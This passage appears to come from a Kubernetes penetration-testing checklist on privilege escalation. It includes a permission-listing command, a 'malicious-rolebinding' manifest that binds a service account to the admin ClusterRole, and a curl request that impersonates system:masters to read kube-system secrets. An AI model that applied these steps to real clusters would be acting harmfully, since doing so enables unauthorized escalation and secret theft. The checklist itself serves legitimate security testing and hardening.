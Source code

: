 
- [ ] Privilege to Get/patch rolebindings

The idea here is if your user has the permission to edit rolebindings that use can simply bind a user to the ClusteAdmin role and thereby escalate priviliges to the highest.


Check your priviliges with your low priviliges user with the following command:

```
kubectl auth can-i --list
```

If you have the permission to create Rolebindings you can create a malicious rolebinding like this:
You might have to change the namespace and the service account to your service account and namespace.

```yaml
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespace": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "default",
            "namespace": "default"
        }
    ]
}
```
If it works you can use the token of the service account to do anything to want in the cluster.

- [ ] Check for impersonation privileges

There exists a functionality to impersonate service accounts. This can be used if you want to check that a a serviceaccount has apropriate priviliges, but it can also be used for malicious intents.

```
curl -k -v -XGET -H “Authorization: Bearer <JWT TOKEN (of the impersonator)>” -H “Impersonate-Group: system:masters” -H “Impersonate-User: null” -H “Accept: application/json” https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/

```



- [ ] Check if RBAC is used

Role-Based Access Control has been the stable since version 1.8
